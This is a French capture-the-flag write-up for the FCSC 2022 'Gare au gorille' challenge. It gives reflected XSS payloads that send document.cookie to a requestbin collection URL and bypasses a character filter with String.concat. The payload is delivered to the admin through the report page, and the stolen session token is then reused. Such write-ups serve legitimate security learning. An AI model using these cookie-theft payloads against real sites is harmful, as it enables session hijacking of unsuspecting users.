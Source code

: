 <h1>Gare au gorille</h1>

<p>On test dans un premier temps le champs search :</p>

> https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert(1)</script> <br/>



![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20160319.png?raw=true "alert")

<br/>
<br/>
Cela fonctionne je crée donc une request bin https://requestbin.net et test simplement : <br/>

> <script>document.location= urlrequestbin?= + document.cookie </script>
<br/>
Cela ne marche pas après plusieurs test on se rend compte que les '+' et les ';' ne fonctionne pas. Pour contourner le problème je fais donc une recherche type javascript concat fonction et je tombe bien sur une fonction concat et modifie mon payload en conséquense : <br/> 


> <script>document.location="".concat('urlrequestbin?=', document.cookie)</script> 
</br>
On recupère notre propre token, on envoie donc la payload à l'admin par l'url de report : <br/> 

> https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<script>document.location="".concat(%27http://urlrequestbin?=%27,%20document.cookie)</script> <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20162522.png?raw=true "token") <br/>

On set maintenant le token dans notre cookie dans le header : <br/>

> Cookie: token=O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45 <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20163109.png?raw=true "flag")







